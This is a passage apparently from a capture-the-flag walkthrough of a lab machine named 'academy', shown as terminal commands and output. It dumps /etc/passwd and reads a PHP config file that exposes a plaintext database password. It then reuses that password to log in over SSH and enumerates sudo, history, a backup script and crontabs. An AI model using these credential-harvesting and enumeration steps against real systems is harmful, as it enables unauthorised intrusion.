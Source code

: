 sshd:x:105:65534::/run/sshd:/usr/sbin/nologin

systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin

mysql:x:106:113:MySQL Server,,,:/nonexistent:/bin/false

ftp:x:107:114:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin

grimmie:x:1000:1000:administrator,,,:/home/grimmie:/bin/bash

$ cat /var/www/html/academy/includes/config.php

<?php

$mysql_hostname = "localhost";

$mysql_user = "grimmie";

$mysql_password = "My_V3ryS3cur3_P4ss";

$mysql_database = "onlinecourse";

$bd = mysqli_connect($mysql_hostname, $mysql_user, $mysql_password, $mysql_database) or die("Could not connect database");

ssh to grimmie:My_V3ryS3cur3_P4ss

grimmie@academy:~$ sudo -l

-bash: sudo: command not found

grimmie@academy:~$ history

1  ls

2  pwd

3  nano backup.sh

4  whoami

5  sudo

6  sudo -l

7  history

grimmie@academy:~$ cd /home/grimmie/

grimmie@academy:~$ cat backup.sh

#!/bin/bash

rm /tmp/backup.zip

zip -r /tmp/backup.zip /var/www/html/academy/includes

chmod 700 /tmp/backup.zip

grimmie@academy:~$ crontab -l

no crontab for grimmie

grimmie@academy:~$ crontab -u root -l
